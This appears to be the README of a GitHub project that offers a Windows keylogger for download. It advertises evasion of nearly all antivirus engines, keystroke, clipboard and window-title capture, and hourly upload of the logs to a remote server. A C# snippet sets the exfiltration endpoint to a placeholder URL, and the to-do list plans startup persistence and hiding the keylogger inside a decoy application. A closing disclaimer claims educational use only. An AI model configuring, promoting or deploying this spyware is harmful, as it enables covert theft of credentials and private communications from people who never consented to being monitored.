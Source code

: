 ![](https://img.shields.io/codefactor/grade/github/Darkempire78/Windows-Keylogger?style=for-the-badge) 
![](https://img.shields.io/github/repo-size/Darkempire78/Windows-Keylogger?style=for-the-badge) <a href="https://discord.com/invite/sPvJmY7mcV"><img src="https://img.shields.io/discord/831524351311609907?color=%237289DA&label=DISCORD&style=for-the-badge"></a>

# Windows Keylogger
It is a Windows keylogger undetected by all major anti-virus.

## Virustotal

This keylogger is undetected by 99% of the anti-virus on [**virustotal**](https://www.virustotal.com/gui/).

<img src="https://raw.githubusercontent.com/clementwzk/Windows-Keylogger/refs/heads/main/Capture1.PNG" width="500"/>

## Installation

Download the [lastest release](https://github.com/Darkempire78/Windows-Keylogger/releases/) and install it.

You can edit the lines 18-19 to add your server where send logs :
```Csharp
string serverLink = "http://server-example/getLog.php";
string serverArg = "log";
```

## Features

* Log keys
* Log the clipboard
* Log window titles
* Send logs to a server each hour

## Logs example

![](Capture2.PNG)

## To do

- [ ] Start the keylogger when the computer is starting
- [ ] Install the keylogger from a facade application
- [ ] Improve the specific country keyboard support

## Discord

Join the Discord server !

[![](https://i.imgur.com/UfyvtOL.png)](https://discord.gg/sPvJmY7mcV)

## Contributing

Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Disclaimer

**This project is for educational use only. Installing computer monitoring tools on computers you do not own or do not have permission to monitor may violate local, state or federal law.**

Logging other people's keystrokes or breaking into other people's computer without their permission can be considered illegal by the courts of many countries. The monitoring software reviewed here is ONLY for authorized system administrators and/or owners of computers. We assume no liability and are not responsible for any misuse or damage caused by the keylogging software. The end user of this software is obliged to obey all applicable local, state, federal and other laws in his country of residence.

## License

This project is under [GPLv3](https://github.com/Darkempire78/Raid-Protect-Discord-Bot/blob/master/LICENSE).

